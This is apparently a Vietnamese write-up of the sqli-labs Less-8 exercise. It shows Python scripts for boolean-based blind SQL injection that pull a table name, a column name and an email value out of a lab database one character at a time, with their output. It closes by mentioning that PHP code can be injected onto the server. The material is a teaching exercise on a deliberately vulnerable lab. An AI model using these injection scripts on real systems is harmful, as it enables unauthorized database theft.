






# Less 8

Đề bài yêu cầu nhập vào một giá trị 



Nhập thử một vài giá trị





Tiếp tục nhập thêm một vài giá trị khác để kiểm tra




Ta có thể thấy rằng ở đây ở dướng backend đã xử lý không cho hiển thị các lỗi của SQL ra màn hình nữa. Nhưng dựa vào kết quả thử ở bên trên ta có thể thấy câu query có thể là

```
select * from table where id='$ID' limit 0,1
```

Ta thấy ở đây không hiển thị bất cứ điều gì ra màn hình ngoại trừ thông báo chúng ta nhập vào giá trị hợp lệ. Chính vì vậy chúng ta khai thác được gì bằng cách cho nó thông báo lỗi ra màn hình. Ta có thể khai thác bằng cách sử dụng time based như ở [Less-7](Less-7.md) hoặc sử dụng boolean based





Sử dụng boolean based để hiến thị dữ liệu trong DB

Show bảng trong Database

```
import requests
import string

text = "You are in..........."
query = "select table_name from information_schema.tables where table_schema='security' limit 0,1"
url_1 = "http://192.168.84.233/sqli-labs/Less-8/?id=100' or substr(("
url_2 = "),{},1)='{}' --+"

url = url_1 + query + url_2
lists = string.printable

for n in range(1,16):
    for i in lists:
        url_r = url.format(n,i)
        res = requests.get(url_r)
        if text in res.text:
            print(i)
            break
```

Kết quả như sau:

```
python Sql-boolean-based.py 
e
m
a
i
l
s
#
#
#
#
#
#
#
#
#
```

Ta thấy bảng thứ nhất trong DB có tên là `emails`

Tương tự ta có thể show các cột trong một bảng

```
import requests
import string

text = "You are in..........."
query = "select column_name from information_schema.columns where table_name='emails' limit 0,1"
url_1 = "http://192.168.84.233/sqli-labs/Less-8/?id=100' or substr(("
url_2 = "),{},1)='{}' --+"

url = url_1 + query + url_2
lists = string.printable

for n in range(1,16):
    for i in lists:
        url_r = url.format(n,i)
        res = requests.get(url_r)
        if text in res.text:
            print(i)
            break
```

Kết quả

```
python Sql-boolean-based.py 
i
d
#
#
#
#
#
#
#
#
```

Ta có thể thấy cột thứ nhất trong bảng emails là `id`

Show giá trị trong bảng

```
import requests
import string

text = "You are in..........."
query = "select email_id from emails limit 0,1"
url_1 = "http://192.168.84.233/sqli-labs/Less-8/?id=100' or substr(("
url_2 = "),{},1)='{}' --+"

url = url_1 + query + url_2
lists = string.printable

for n in range(1,20):
    for i in lists:
        url_r = url.format(n,i)
        res = requests.get(url_r)
        if text in res.text:
            print(i)
            break
```

Giá trị ở đây là:

```
python Sql-boolean-based.py 
d
u
m
b
@
d
h
a
k
k
a
n
.
c
o
m
#
#
#
```

Trong trường `email_id` của bảng `emails` có một giá trị là `dumb@dhakkan.com`

Tương tự ta có thể show được toàn bộ dữ liệu trong DB

Ta có thể truyền một đoạn code PHP vào server như những bài trước